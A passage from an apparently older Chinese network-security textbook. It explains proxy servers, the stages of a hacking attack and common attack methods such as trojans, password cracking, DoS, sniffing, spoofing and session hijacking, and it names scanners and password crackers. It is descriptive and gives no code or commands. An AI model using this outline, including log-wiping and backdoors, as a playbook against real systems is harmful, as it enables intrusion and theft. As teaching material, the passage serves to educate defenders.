- `-l` 除了用 `-s` 选项显示的信息外，还显示用户主目录、登录 shell、邮件状态等信息，以及用户主目录下的 `.plan`、`.project` 和 `.forward` 文件的内容。

##### 常用 NET 命令

Windows NT 网络命令，见（附录二）。

## 十、代理服务器

### 代理服务器

代理服务器是网上提供转接功能的服务器。比如你想访问的目的网站是 X，由于某种原因你不能访问到网站 X，或者你不想直接访问网站 X（这样通过代理服务器访问网站 X，可以隐藏你自己的身份，也就是网站方不知道是谁访问，而认为是代理服务器访问的），此时你就可以使用代理服务器。在实际访问网站的时候，你在浏览器地址栏内和以前一样输入要访问的网站，浏览器会自动先访问代理服务器，然后代理服务器会自动给你转接到目标网站。简单而言，代理服务器可以隐藏你的身份。

WinGate 是一个代理服务器及防火墙软件包，如图 4。可让多个用户仅通过一个连接同时访问 Internet。它几乎在任意环境下都能极好地工作：从小型家庭办公室共享一个 Modem 连接，中等规模办公室共享一个 ISDN 连接，到一个大型复杂的网络共享一条专线。WinGate 软件由服务器端和客户端软件两部分组成，服务器软件安装在有 Modem 或者有其他连接的机器上，客户端软件安装在网络上的其他机器上。WinGate 运行在一个具有 TCP/IP 协议的网络上；服务器端软件则必须安装在运行有 Windows 95/98/NT 的机器上。

##### 如何使用代理

我们以 IE 为例，打开浏览器 IE5，选择“工具”→“Internet 选项”，用左键单击“连接”→“局域网设置”，如图 3，可以输入代理服务器的 IP 地址和端口，再点“确定”即可。别的 QQ 等应用软件也有相应的代理服务器设置界面。

##### 代理搜索软件

代理猎手，它支持 HTTP 和 SOCKS5 代理服务器的搜索和验证，支持多网址段、多端口自动搜索；支持不同网段搜索顺序的调整，找到服务器后会显示详细列表，如图 5。

### 常用的代理服务器软件

常用的代理服务器软件有 SyGate、WinGate、MSProxy 等等。

### SyGate

SyGate 安装在局域网中直接接入互联网的那台电脑上，几分钟就可完成。它不像基于代理服务器的产品，SyGate 基于 NAT（网络地址转换），电子邮件和浏览器并不需要特别设置。SyGate 自动分配所需参数给每一部电脑，包括 TCP/IP 地址、子网掩码、网关和 DNS 服务器，只需要安装一次，所有局域网内的电脑都能上网。

### WinGate

WinGate 是一个代理服务器及防火墙软件包。

## 第三节 黑客基础知识

#### 一、黑客常见攻击步骤

黑客的攻击手法多种多样，变幻莫测，但纵观其整个攻击过程，还是有一定规律可循的，一般可以分为：攻击前奏、实施攻击、巩固控制、继续深入几个过程。下面我们来具体了解一下这几个过程。

- **1. 攻击前奏**

黑客在发动攻击前一般都会进行一些“前奏”活动，主要包括：锁定攻击目标、了解目标的网络结构，收集各种目标系统的信息等。

**锁定目标：**Internet 上有许多主机，黑客首先要寻找他“感兴趣”的目标主机，他可以先用搜索引擎寻找他要找的站点。当然能真正标识主机的是 IP 地址，黑客利用域名和 IP 地址就可以顺利地找到目标主机。

**了解目标的网络结构：**确定要攻击的目标后，黑客就会设法了解其所在的网络结构，哪里是网关、路由，哪里有防火墙、IDS，哪些主机与要攻击的目标主机关系密切等。最简单地就是用 tracert 命令追踪路由，也可以发一些数据包看其是否能通过来猜测其防火墙过滤原则的设定等。当然老练的黑客在干这些的时候都会利用别的计算机来间接探测，从而隐藏他们真实的 IP 地址。

**收集系统信息：**在收集到目标的第一批网络信息之后，黑客会对网络上的每台主机进行全面的系统分析，以寻求该系统的安全漏洞或安全弱点。

收集系统信息的方法有：开放端口分析、利用信息服务、利用安全扫描器、社会工程。

开放端口分析：首先黑客要知道目标主机采用的是什么操作系统、什么版本。如果目标开放 Telnet 服务，那只要 Telnet xx.xx.xx.xx（目标主机），就会显示 “Digital UNIX (xx.xx.xx) (ttyp1) login:” 这样的系统信息。接着黑客还会检查其开放端口进行服务分析，看是否有能被利用的服务。因特网上的主机大部分都提供 WWW、MAIL、FTP、Telnet 等日常网络服务，通常情况下 Telnet 服务的端口是 23，WWW 服务的端口是 80，FTP 服务的端口是 21 等。

利用信息服务：像 SNMP 服务、TraceRoute 程序、Whois 服务、Finger 服务等都会被黑客用来收集信息。SNMP 服务可用来查阅网络系统路由器的路由表，从而了解目标主机所在网络的拓扑结构及其内部细节；TraceRoute 程序能够获得到达目标主机所要经过的网络数和路由器数；Whois 协议服务能提供所有有关的 DNS 域和相关的管理参数；Finger 协议可以获取一个指定主机上的所有用户的详细信息（如用户注册名、电话号码、最后注册时间以及他们有没有读邮件等等）。所以如果没有特殊需要，管理员应该关闭这些服务。

利用安全扫描器：收集系统信息当然少不了安全扫描器，黑客会利用一些安全扫描器来帮助他们发现系统的各种漏洞，包括各种系统服务漏洞、应用软件漏洞、CGI 漏洞、弱口令用户等等。（关于社会工程收集信息在攻击方法篇中有具体介绍）

网络世界瞬息万变，黑客们各有不同，他们的攻击流程也不会完全相同。上面我们提的攻击步骤是对一般情况而言的，是绝大部分黑客正常情况下采用的攻击步骤。

- **2. 实施攻击**

当黑客探测到了足够的系统信息，对系统的安全弱点有了了解后就会发动攻击，当然他们会根据不同的网络结构、不同的系统情况而采用不同的攻击手段。一般，黑客攻击的终极目的是能够控制目标系统，窃取其中的机密文件等，但并不是每次黑客攻击都能够得逞并控制目标主机，所以有时黑客也会发动拒绝服务攻击之类的干扰攻击，使系统不能正常工作。关于黑客具体采用的一些攻击方法我们在下面“黑客攻击方法”中有详细介绍，这里就不细说了。

- **3. 巩固控制**

黑客利用种种手段进入目标主机系统并获得控制权之后，不是像大家想象的那样会马上进行破坏活动，删除数据、涂改网页等，那是毛头小伙子们干的事情。一般入侵成功后，黑客为了能长时间保留和巩固他对系统的控制权，不被管理员发现，他会做两件事：清除记录和留下后门。日志往往会记录一些黑客攻击的蛛丝马迹，黑客当然不会留下这些“犯罪证据”，他会把它删了或用假日志覆盖它。为了日后可以不被觉察地再次进入系统，黑客会更改某些系统设置，在系统中置入特洛伊木马或其他一些远程操纵程序。

- **4. 继续深入**

清除日志、删除拷贝的文件等手段来隐藏自己的踪迹之后，攻击者就开始下一步的行动：窃取主机上的各种敏感信息：软件、资料、客户名单、财务报表、信用卡号等等。也可能是什么都不动，只是把你的系统作为他存放黑客程序或资料的仓库。也可能黑客会利用这台已经攻陷的主机去继续他下一步的攻击，如：继续入侵内部网络，或者利用这台主机发动 D.O.S 攻击使网络瘫痪。

#### 二、黑客常用攻击方法

黑客攻击方法多种多样，他们会根据探测得到的系统信息、安全弱点而采用针对性的攻击方法。不同的系统、不同的情况下，他们采取的攻击方法往往不同。但总的来说，常见的黑客攻击方法有这几种：木马攻击、邮件攻击、口令攻击、病毒攻击、漏洞攻击、拒绝服务攻击、欺骗攻击、嗅探攻击、会话劫持攻击、社会工程等。下面我们来具体了解一下这些攻击方法。

- **1. 木马攻击**

“特洛伊木马程序”攻击也是黑客常用的攻击手段。黑客会编写一些看似“合法”的程序，但实际上此程序隐藏有其他非法功能，比如一个外表看似是有趣小游戏的程序，但其实你运行的同时它在后台为黑客创建了一条访问你系统的通道，这就是“特洛伊木马程序”。当然只有当用户运行了木马后才会达到攻击效果，所以黑客会把它上传到一些站点诱导用户下载，或者用 EMAIL 寄给用户并编造各种理由骗用户运行它。当用户运行此软件后，该软件会悄悄执行它的非法功能：跟踪用户的电脑操作，记录用户输入的口令、上网账号等敏感信息，并把它们发送到黑客指定的电子信箱。如果是像“冰河”“灰鸽子”这样的功能强大的远程控制木马，黑客还可以像在本地操作一样远程操控你的电脑。

- **2. 邮件攻击**

邮件攻击一般指电子邮件炸弹攻击，这是黑客常用的一种攻击手段。它是用伪造的 IP 地址和电子邮件地址向同一信箱发送数以千计、万计甚至无穷多次内容相同的恶意邮件，也可称之为大容量垃圾邮件。由于每个人的邮箱是有限的，当庞大的邮件垃圾到达信箱的时候，就会挤满信箱，使之无法接受正常邮件。同时，因为它占用了大量网络资源，常常会导致网络阻塞，使用户不能正常连接邮件服务器，严重者可能会给电子邮件服务器操作系统带来危险。几年前就曾有黑客使用这种攻击手段使得新浪、雅虎等几个世界级门户网站的 Email 服务器瘫痪了几十个小时，所以邮件攻击也可以看作拒绝服务攻击的一种。

特别要注意的是现在频繁出现的“蠕虫”病毒。我们知道一般病毒只有当计算机运行了病毒或携带病毒的载体程序才会感染，而这些蠕虫病毒不一样。像“红色代码”、最近的“SQL 冲击波”等蠕虫病毒是利用系统漏洞自动去攻击传染网络上的其他计算机，它们是主动攻击的，甚至不需要任何载体。也就是说你的计算机只要上网就可能被感染，所以安装一个好的杀毒软件在病毒横行的网络时代里是很必要的。

- **3. 口令攻击**

口令攻击是黑客最老牌的攻击方法，从黑客诞生的那天起它就开始被使用。这种攻击方式具体有三种方法：

- **暴力破解法**：在知道用户账号后，用一些专门的软件强行破解用户口令（包括远程登录破解和对密码存储文件 Passwd、Sam 的破解）。这种方法要有足够的耐心和时间，但总有那么一些使用简单口令的用户账号，使得黑客可以迅速将其破解。
- **伪造的登录界面法**：在被攻击主机上启动一个可执行程序，该程序显示一个伪造的登录界面。当用户在这个伪装的界面上键入用户名、密码后，程序将用户输入的信息传送到攻击者主机。
- **网络监听法**：通过网络监听来得到用户口令。这类方法危害性很大，监听者往往能够获得同一个网段的所有用户账号和口令，但其也有局限性。

- **4. 病毒攻击**

关于计算机病毒想必大家都有所了解，对其概念就不多说了。其实这些由黑客编写的计算机病毒就像人类病毒一样，目的是感染尽可能多的计算机。计算机一旦感染病毒就会“发病”，轻则影响运行速度、恶作剧、死机，重则破坏硬盘数据甚至计算机硬件。而且当一台计算机感染了病毒，它就会变成携带者，又会去感染其他新的计算机。

- **5. 漏洞攻击**

利用漏洞攻击是黑客攻击中最容易得逞的方法。许多系统及网络应用软件都存在着各种各样的安全漏洞：系统漏洞、服务漏洞，如 Win98 的共享目录密码验证漏洞，Windows 2000 的 Unicode、printer、ida、idq、webdav、RPC 漏洞，Unix 的 Telnet、RPC 漏洞、Sendmail 的邮件服务软件漏洞，还有基于 WEB 服务的各种 CGI 漏洞等等，这些都是最容易被黑客利用的系统漏洞。特别是其中的一些远程缓冲区溢出（buffer overflow）漏洞，利用这些缓冲区溢出漏洞，黑客不但可以通过发送特殊数据包使服务或系统瘫痪，更严重的是黑客甚至可以精确控制溢出后在堆栈中写入的代码，以使其能执行黑客的任意命令，从而访问并控制系统。

- **6. 拒绝服务攻击**

拒绝服务攻击（Denial of Service，DoS）是一种最悠久也是最常见的攻击形式。它利用 TCP/IP 协议的缺陷，将提供服务的网络资源耗尽，导致不能提供正常服务，是一种对网络危害巨大的恶意攻击。实际上拒绝服务攻击并不是某一种具体攻击方式，而是攻击所表现出来的结果：最终使目标系统因遭受某种程度的破坏而不能继续提供正常服务，甚至导致物理上的瘫痪或崩溃。其具体攻击方法可以是多种多样的，可以是单一手段，也可以是多种方式组合利用，不过其结果都一样，即合法用户无法访问所需信息。

一种常见攻击是黑客利用网络协议缺陷或系统漏洞发送一些非法数据或数据包，使系统死机或重新启动，从而使系统或网络瘫痪，如 Land 攻击、WinNuke、Ping of Death、TearDrop 等。另一种攻击原理是在短时间内发送大量伪造的连接请求报文到网络服务所在端口（如 80），从而消耗系统带宽或设备的 CPU 和内存，造成服务器资源耗尽、系统停止响应甚至崩溃，其中具有代表性的攻击手段包括 SYN flood、ICMP flood、IGMP flood、UDP flood 等。

分布式拒绝服务（DDoS）攻击是目前网络的头号威胁。它是在传统 DoS 攻击基础上产生的一类攻击方式。单一 DoS 攻击一般采用一对一攻击，而分布式拒绝服务攻击则是黑客控制多台计算机（几台到成千上万台）同时攻击，从而以更大规模进攻。这样的攻击即使是一些大网站也很难抵御。

- **7. 嗅探攻击**

要了解嗅探攻击方法，我们先要知道它的原理：网络的一个特点就是数据总是在流动中。当你的数据从网络的一台电脑到另一台电脑时，通常会经过大量不同的网络设备。如果在传输过程中，中途有人通过特殊设备（嗅探器，有硬件和软件两种），就能够捕获这些传输网络数据的报文。这就好比你给人发了一封邮件，在半路上被人拆开偷看一样。或许你还感觉不到问题的严重，如果你传送的数据刚好是企业机密文件或信用卡账号和密码呢？

嗅探攻击主要有两种途径：一种是针对简单采用集线器（HUB）连接的局域网，黑客只要把嗅探器安装到这个网络中的任意一台计算机上，就可以实现对整个局域网的侦听。这是因为共享 hub 在传送子网内需要接收的数据时，并不是直接发送到指定主机，而是通过广播方式发送到每台电脑。正常情况下，数据接收目标电脑会处理该数据，而其他非接收者电脑会过滤这些数据，但安装了嗅探器的计算机会接收所有数据。另一种是针对交换网络。由于交换网络的数据是从一台计算机发到预定计算机，而不是广播，所以黑客必须将嗅探器放到像网关服务器、路由器这样的设备上才能监听到网络数据。当然这比较困难，但由于一旦成功就能够获得整个网段的所有用户账号和口令，所以黑客还是会通过其他攻击手段来实现它，比如通过木马方式将嗅探器发给某个网络管理员，使其不自觉地为攻击者进行了安装。

- **8. 欺骗攻击**

常见的黑客欺骗攻击方法有：IP 欺骗攻击、DNS 欺骗、邮件欺骗攻击、网页欺骗攻击等。

**IP 欺骗攻击：**即黑客改变自己的 IP 地址，伪装成别人的计算机 IP 地址来进行攻击，或者获得信息、得到特权等。如 UNIX 机器之间能建立信任关系，使得这些主机的访问变得容易，而这个信任关系基本上是使用 IP 地址进行验证的。最近 Windows NT 网络流行的 ARP 欺骗攻击也属于 IP 欺骗攻击的一种。

**电子信件欺骗攻击：**黑客向某位用户发一封电子邮件，并修改邮件头信息（使邮件地址看上去和系统管理员的邮件地址完全相同），信中冒称自己是系统管理员，说由于系统服务器故障导致部分用户数据丢失，要求该用户把个人信息马上用 Email 回复给他……你会怎么做呢？这就是一个典型的电子邮件欺骗攻击例子。

**网页欺骗攻击：**黑客建立某个站点网页的拷贝，然后修改其链接，使用户访问这些链接时先经过黑客控制的主机。然后黑客会想方设法让用户访问这个修改后的网页，从而监控用户整个 HTTP 请求过程，窃取用户账号和口令等信息，甚至假冒用户给服务器发送数据。而如果这个网页是电子商务站点，那用户的损失可想而知。

- **9. 会话劫持攻击**

让我们设想一下：某黑客在暗地里等待某位合法用户通过 telnet 远程登录到一台服务器上，当这位用户成功提交密码后，这个黑客就开始接管该用户当前会话并摇身变成这个用户。这就是会话劫持攻击（Session Hijacking）。它在一次正常通信过程中，黑客作为第三方参与其中，或者在数据流（例如基于 TCP 的会话）里注入额外信息，或者将双方通信模式暗中改变，即从直接联系变成经由黑客联系。会话劫持是一种结合了嗅探以及欺骗技术在内的攻击手段，最常见的是 TCP 会话劫持，像 HTTP、FTP、Telnet 都可能被进行会话劫持。

要实现会话劫持，黑客首先必须窥探到正在进行 TCP 通信的两台主机之间传送报文的源 IP、源 TCP 端口号、目的 IP、目的 TCP 端口号，从而推算出其中一台主机将要收到的下一个 TCP 报文段中的 seq 和 ackseq 值。这样在合法主机收到另一台合法主机发送的 TCP 报文前，攻击者根据截获信息向该主机发出一个带有净荷的 TCP 报文。如果该主机先收到攻击报文，就可以把合法 TCP 会话建立在攻击主机与被攻击主机之间。带有净荷的攻击报文能够使被攻击主机对下一个要收到 TCP 报文中的确认序号（ackseq）值的要求发生变化，从而使另一台合法主机向被攻击主机发出的报文被拒绝。

会话劫持攻击能避开被攻击主机对访问者的身份验证和安全认证，从而使黑客能直接进入对被攻击主机的访问状态，对系统安全构成的威胁比较严重。不过要实现它不但需要复杂技术，而且还需要对攻击时间的精确把握，所以会话劫持攻击并不太常见。不过最近网上有对 Windows NT 的 SMB 会话劫持攻击的讨论。

- **10. 社会工程攻击**

什么是社会工程攻击？这个概念可能大家比较陌生。其实关于社会工程还没有明确的定义，我们这里可以理解为黑客用非计算机技术手段来刺探消息、骗取信息，以最终达到攻击或入侵目的的各种社会活动。比如黑客想侵入某公司的网络窃取信息，他会故意接近该公司网管员的亲属和朋友，从他们那里轻易套取网管员的网名、生日、幸运数字等信息；也可以直接接近网管，从而骗取更有用的信息；或者冒充该管理员的上司打电话给管理员索要账号；也可以伪装成空调修理工人、电信维修人员，直接进入该公司内部，从物理上接近攻击目标。到这里，相信大家应该对社会工程有所了解了。上面介绍只是几个简单的社会工程攻击例子，专业窃取情报的黑客采用的方法更为隐秘和可怕，记住“一切皆有可能”。

#### 三、黑客常用工具

- **1. 扫描工具**

扫描器是一种自动检测远程或本地主机安全性弱点的程序。它通过与目标主机 TCP/IP 端口建立连接并请求某些服务（如 TELNET、FTP 等），记录目标主机的应答；搜集目标主机相关信息，如端口分配及提供的服务和它们的软件版本信息、匿名用户是否可以登录等，从而发现目标主机某些内在的安全弱点。

扫描器的重要性在于把极为烦琐的安全检测过程通过程序自动完成，这不仅减轻黑客的工作负担。当然，也可以认为扫描器是一种网络安全性评估软件。一般而言，扫描器可以快速、深入地对网络或目标主机进行评估。

扫描器按照功能多少可以分为：单一功能型扫描器和多功能综合扫描器。单一功能扫描器是指其扫描功能比较单一，只能完成某项扫描任务，比如扫描端口、扫描共享资源或密码、探测某一漏洞等等。而多功能综合型扫描器则是指那些集成众多功能、能扫描多种漏洞、探测多种项目的扫描器。

单一功能型扫描器编写相当简单，现在有许多此类扫描器。比如端口扫描器有 superscan、fport 等等，共享扫描器有 shed.exe 等等（如图1）；还有许多能探测某一漏洞的，如 UNICODE 漏洞扫描器等等。

其中 SuperScan 是一个功能强大的端口扫描软件，它能通过 Ping 来检验 IP 是否在线，进行 IP 和域名相互转换；检验一定范围目标计算机是否在线和端口情况；通过工具自定义列表检验目标计算机是否在线和端口情况；自定义要检验的端口，并可保存为端口列表文件；软件还自带一个木马端口列表 trojans.lst，通过这个列表我们可以检测目标计算机是否有木马。还有几个扫描功能各不相同，这里就不一一介绍了。

图3  
图1

多功能综合型扫描器往往能够扫描多种常见漏洞，能进行端口扫描，能进行远程口令猜解等。这种大型扫描器一般开发比较麻烦，所以不是很多。现在黑客常用的国内扫描工具主要有“流光”、X-SCAN 和 X-WAY，这几个都很有名，国内用的人也很多。国外重量级的多功能综合型扫描器则有 Nmap、Nessus、ShowSecurityScanner（如图3）等。

下面我们来简单了解一下国产最经典的大型扫描工具：“流光”和“X-scan”。

图2

- **“流光”**：目前最新版本 5.0，“流光”主要特点：
1. 用于检测 POP3/FTP 主机中用户密码安全漏洞。
2. 多线程检测，最多 500 个线程探测，线程超时设置，阻塞线程具有自杀功能。
3. 支持 10 个字典同时检测。
4. 检测设置可作为项目保存。
5. 它可以探测 POP3、FTP、HTTP、PROXY、FORM、SQL、SMTP、IPC$ 等 Windows 系统、UNIX 系统、各种服务漏洞，如图4，并针对各种漏洞设计了不同的破解方案。

统上轻易得到被探测的用户密码，而且“流光”在 WIN9X/NT/2000 上都可以运行，使它成为许多黑客手中的必备工具之一，一些资深黑客也对它青睐有加。甚至有人曾说：“流光”能让一个刚刚会用鼠标的人成为专业级黑客”。



图4

**X-Scan**：目前最新版本 2.3，它采用多线程方式对指定 IP 地址段（或单机）进行安全漏洞检测，支持插件功能，提供了图形界面和命令行两种操作方式。扫描内容包括：远程操作系统类型及版本，标准端口状态及端口 BANNER 信息，CGI 漏洞，IIS 漏洞，RPC 漏洞，SQL-SERVER，FTP-SERVER，SMTP-SERVER，POP3-SERVER，NT-SERVER 弱口令用户，NT 服务器 NETBIOS 信息等。扫描结果保存在 /log/ 目录中，index_*.htm 为扫描结果索引文件。



图5

## 2、口令破解工具

计算机许多验证方法都是基于口令验证的，只要你知道了一个账户名和它的口令，那么你就可以以这个账户的身份登录进行活动了，所以口令是相当重要的。所以口令破解器也是黑客必备的工具之一，它可以在知道用户的账号后强行破解用户口令。这种方法只要有足够的时间，总有那么一些使用简单口令的用户账号被黑客们破解出来。如果对口令破解工具进行分类，可以分远程破解和本地破解两种类型。



图6

远程口令破解工具是指能挂上字典后对远程服务（如 telnet、ftp、pop、IPC）的某账户逐个尝试密码，错误后重试直到试得正确密码为止的工具。一些大型扫描器往往集成了这种功能，比如“流光”“ShowSecurityScanner”等都具有远程口令破解的功能，所以有人说这些重量级扫描器已不再仅属于扫描器范畴。当然，功能单一地进行远程口令破解工具也有，比如“溯雪”就是一个远程探测各种基于 WEB 页的登录口令的工具，如图6，用于远程破解基于 WEB 页信箱密码、论坛密码等，速度飞快，具体用法可以查看其帮助文件，在这就不介绍了。

本地口令破解工具主要是对密码存储文件的 Passwd（UNIX 系统）、Sam（Windows 系统）的破解。黑客先会想方设法搞到这些密码存储文件，然后用本地口令破解工具进行破解。常见的 Windows NT 账户破解工具有：L0phtcrack，UNIX 口令破解工具比较著名的有：“john”和“乱刀”。L0phtcrack 是 Win NT/2000 平台上使用的最好、最快的 NT 账户密码破解工具，它能在 P300 机器上不到 48 小时破解 90% 的超级用户（Admin）口令，18% 不到 10 分钟就可以破解。目前最新版本 4.0，使用时只要把文件导入后开始破解就可以了，如图7。



图7

“john”和“乱刀”这两个程序都可以运行于 Windows 平台下，不过 john 是命令行工具，使用不是很方便；我们这里就只介绍下“乱刀”，它是一个破解 UNIX 的 PASSWD 文件密码的工具，使用简单，如图8。与同类工具相比，它具有以下优点：

- 可以启动多个线程来进行解码。
- 能产生各种密码的组合，不必使用字典。
- 使用 32 位的核心 DES 算法，速度飞快。
- 具有断点恢复功能。

